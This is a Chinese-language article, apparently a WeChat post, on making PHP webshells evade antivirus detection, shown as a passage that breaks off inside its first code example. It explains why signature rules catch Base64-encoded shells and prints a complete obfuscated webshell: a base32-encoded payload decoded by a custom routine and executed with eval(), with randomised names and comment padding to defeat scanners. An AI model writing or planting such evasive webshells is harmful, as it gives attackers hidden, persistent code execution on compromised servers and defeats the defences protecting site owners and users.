 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/XCVucjaGkyScFF1UHg0y2A)

**0x00：前言**

由于杀软的规则在不断更新 所以很多之前的过杀软方法基本上都不行了 而且随着 php7 逐渐扩张 assert 马也将被淘汰 所以本文将提出几种免杀思路 效果很好 而且不会被杀软的正则和沙盒规则约束。

**0x01：自定义加密 Bypass**

部分杀软会直接将一些编码函数如 Base64、编码后的关键字或组合函数加入了规则 比如某 dir+  
![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZyrib5CqUA8Jiah8iaDLQexczn6MrIQAoJr8icia3cuoMB4mWIRrBL0Lohe4g/640?wx_fmt=png)  
比如这个 都能被检测出是 shell

所以为了防止这种的规则 自定义加密显然是最优解

自定义加密可选性多了 只要能把加密后的字符还原回去就行 比如 base32 base58 这类的 base 编码全家桶 或者自定义 ascii 移位 甚至是对称加密算法等都是可以绕过这类规则检测

*   base32 编码 payload  
    （https://github.com/pureqh/webshell）：
    
    ```
    <?php
    class KUYE{
          public $DAXW = null;
          public $LRXV = null;
          function __construct(){
          $this->DAXW = 'mv3gc3bierpvat2tkrnxuzlsn5ossoy';
          $this->LRXV = @SYXJ($this->DAXW);
          @eval("/*GnSpe=u*/".$this->LRXV."/*GnSpe=u*/");
          }}
    new KUYE();
    function MNWK($QSFX){
      $BASE32_ALPHABET = 'abcdefghijklmnopqrstuvwxyz234567';
      $NLHB = '';
      $v = 0;
      $vbits = 0;
      for ($i = 0, $j = strlen($QSFX); $i < $j; $i++){
      $v <<= 8;
          $v += ord($QSFX[$i]);
          $vbits += 8;
          while ($vbits >= 5) {
              $vbits -= 5;
              $NLHB .= $BASE32_ALPHABET[$v >> $vbits];
              $v &= ((1 << $vbits) - 1);}}
      if ($vbits > 0){
          $v <<= (5 - $vbits);
          $NLHB .= $BASE32_ALPHABET[$v];}
      return $NLHB;}
    function SYXJ($QSFX){
      $NLHB = '';
      $v = 0;
      $vbits = 0;
      for ($i = 0, $j = strlen($QSFX); $i < $j; $i++){
          $v <<= 5;
          if ($QSFX[$i] >= 'a' && $QSFX[$i] <= 'z'){
              $v += (ord($QSFX[$i]) - 97);
          } elseif ($QSFX[$i] >= '2' && $QSFX[$i] <= '7') {
              $v += (24 + $QSFX[$i]);
          } else {
              exit(1);
          }
          $vbits += 5;
          while ($vbits >= 8){
              $vbits -= 8;
              $NLHB .= chr($v >> $vbits);
              $v &= ((1 << $vbits) - 1);}}
      return $NLHB;}